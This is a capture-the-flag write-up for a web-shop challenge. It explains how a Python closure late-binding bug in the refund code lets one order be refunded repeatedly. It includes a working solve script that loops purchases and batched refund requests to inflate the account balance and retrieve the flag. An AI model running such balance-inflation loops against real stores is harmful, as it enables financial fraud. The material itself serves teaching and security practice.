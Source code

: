 **Author: Zukane**

*It appears that PHP was not the solution after all, so we switched to the much more modern and secure Python language. Fortunatly, using modern frameworks also guarantees that our application is fully secure!*

##### Challenge overview

In this web challenge, we are given the website's source code and a URL to connect to.

On the site, we can register a user and login. We are met with a web-shop where we can buy sick stuff, such as the EPT Fidget Toy. Unfortunately, we only have a balance of $100.00. The only item in the store we can afford is the "Fun" item costing $99.99. We can buy an item, and we can refund it on our orders page if we have changed our mind. 

Analysing the source code, we can see this is where our balance is updated:

```python
def stream_sell_orders(session: Session, orders: list[Order]):
    for order in orders:

        def sell_order(user: User):
            if not order or order.user_id != user.id:
                return False
            item = session.get(Item, order.item_id)
            user.balance += item.price
            session.delete(order)
            session.commit()
            return True

        yield sell_order
```

This function is pretty weird. `stream_sell_orders` takes in a list of orders, and creates a function for each one to "sell" it. This function, `sell_order`, is created inside a for loop, and each time the loop runs, `sell_order` is supposed to reference a different order. Each `sell_order` function doesn’t actually "lock in" the specific order it was created for. Instead, all `sell_order` functions end up pointing to the **same variable** `order` because `order` is defined in the scope of `stream_sell_orders`. By the time any of the `sell_order` functions are called, `order` has already looped to the **last item** in the list, so all `sell_order` functions refer to that last item. This means the same order is refunded multiple times, inflating the user's balance

##### Solution

We can send in multiple orders. During the competition our team had made multiple accounts with orders, allowing me to batch the inflation faster. In reality, you just need at least two users. Make sure the final `order_id` corresponds to the correct user.

```python
import requests, time
from bs4 import BeautifulSoup

base_url = 'https://munintrollet-a43f-shop-5.ept.gg/'
cookies = {'token': 'd1e2b78b6fd0c4d7e8b6b6d30906c1e1'}

def buy_item(item_id=1):
    requests.post(base_url, cookies=cookies, data={"item_id": str(item_id)})

def sell_item():
    data = [('order_ids', '1'),('order_ids', '2'),('order_ids', '3'),('order_ids', '4'),('order_ids', '5'), ('order_ids', '7')]
    requests.post(base_url + 'orders', cookies=cookies, data=data)

def get_balance():
    r = requests.get(base_url, cookies=cookies)
    soup = BeautifulSoup(r.text, 'html.parser')
    span = soup.find('span', string=lambda x: x and x.startswith('Balance:'))
    if span:
        balance_str = span.text.split('$')[-1].replace(',', '')
        return float(balance_str)
    return 0.0

def get_flag():
    r = requests.get(base_url + 'orders', cookies=cookies)
    soup = BeautifulSoup(r.text, 'html.parser')
    for td in soup.find_all('td'):
        if 'EPT{' in td.text:
            print('Flag:', td.text.strip())
            return

while get_balance() < 2500:
    buy_item()
    sell_item()
    balance = get_balance()
    print(f"Balance: ${balance:.2f}")
    if balance >= 2500:
        buy_item(2)
        time.sleep(1)
        get_flag()
        break
    time.sleep(0.1)
```

By running this script, we can get the flag

```
└─$ python3 solve.py
Balance: $599.95
Balance: $1099.90
Balance: $1599.85
Balance: $2099.80
Balance: $2599.75
Flag: Come over to the admin booth and claim your very own EPT Fidget Toy for you and your team! EPT{G0in6_1n_l0ops_to0_f45t_m4k3s_m3_d1zzy}
```

`EPT{G0in6_1n_l0ops_to0_f45t_m4k3s_m3_d1zzy}`